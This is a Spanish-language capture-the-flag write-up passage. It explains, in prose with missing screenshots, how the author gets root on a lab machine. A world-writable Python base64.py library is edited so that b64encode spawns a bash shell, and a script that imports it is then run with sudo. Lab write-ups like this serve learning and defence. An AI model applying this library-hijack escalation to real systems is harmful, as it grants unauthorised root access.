

Investigando el codigo del script en **python** que encontramos en el **home** de **caroline** vemos que este script utiliza las librerias de **base64** y **sys**.



Probamos el funcionamiento del script y detectamos que su función es recibir un **parametro** y convertir este **parametro** a **base64** para luego mostrarlo por pantalla.



Buscamos la ruta de la liberia **base64** y encontramos que se ubica en **/usr/lib/python3.10/**, esta libreria de **base64** tiene como nombre **base64.py** y detectamos que tiene permisos incorrectamente configurados ya que **otros usuarios** aparte del **propietario** pueden modificar el contenido del fichero **base64.py**.



Despues de haber comprendido el funciomiento del script en python, sabemos que el script utiliza la función **b64encode**.

Por lo cual modificamos el fichero **base64.py** para importar la libreria **os**, además de añadir en la función **b64encode** una linea de codigo que **spawnee** una **bash** del usuario que ejecuta el **script**.





Como tenemos permisos para ejecutar **python3.10** como **root**, ejecutamos este script con **sudo** para que se ejecute como si lo estuviera ejecutando el usuario **root**, de esta forma se **spawneara** una **shell** en **bash**, en la cual podemos verificar que hemos escalado privilegios a **root**.

Si nos dirigimos a la ruta de **/root/** podemos visualizar la flag de **root.txt**.


